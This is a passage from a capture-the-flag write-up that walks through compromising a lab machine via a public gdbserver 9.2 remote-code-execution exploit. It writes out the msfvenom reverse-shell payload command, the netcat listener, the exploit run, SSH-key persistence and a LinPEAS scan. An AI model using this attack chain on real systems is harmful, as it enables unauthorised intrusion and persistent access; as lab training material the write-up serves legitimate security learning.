 Let's see if there are any easy exploits for this version using `searchsploit gdbserver 9.2`:

```
------------------------------------------------------ ---------------------------------
 Exploit Title                                        |  Path
------------------------------------------------------ ---------------------------------
GNU gdbserver 9.2 - Remote Command Execution (RCE)    | linux/remote/50539.py
------------------------------------------------------ ---------------------------------
```

We can copy the exploit to our home directory with `searchsploit -m 50539.py`.

Running `python3 50539.py --help` displays a helpful usage message that walks us through the entire process:

```
Usage: python3 50539.py <gdbserver-ip:port> <path-to-shellcode>

Example:
- Victim's gdbserver   ->  10.10.10.200:1337
- Attacker's listener  ->  10.10.10.100:4444

1. Generate shellcode with msfvenom:
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.100 LPORT=4444 PrependFork=true -o rev.bin

2. Listen with Netcat:
$ nc -nlvp 4444

3. Run the exploit:
$ python3 50539.py 10.10.10.200:1337 rev.bin
```

We'll do exactly as the exploit code author says and run `msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=40254 PrependFork=true -o rev.bin` to create the shellcode. Then, we will start a listener with netcat: `nc -nlvp 40254` (or use `pwncat-cs -lp 40254`). Finally, we run the exploit with `python3 50539.py 10.10.11.125:1337 rev.bin`... and we get a reverse shell. Nice!

We can now run `cat user.txt` to get the `user.txt` flag.

## Lateral Movement

Let's get some persistance with `run implant.authorized_key key=/home/kali/.ssh/id_rsa` in `pwncat` (or upload the public key to `.ssh/authorized_keys` manually if using netcat).

Let's scan for possible privilege escalation techniques with [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) by running `upload linpeas.sh` in `pwncat` and then running `bash linpeas.sh` on the target.

In the running processing section of the LinPEAS report we see the following:

```
root         830  0.0  0.1   8356  3420 ?        S    Feb20   0:00  _ /usr/sbin/CRON -f
root         851  0.0  0.0   2608  1540 ?        Ss   Feb20   0:10      _ /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root ;; done
root       90213  0.0  0.0   5476   524 ?        S    04:32   0:00          _ sleep 1
```
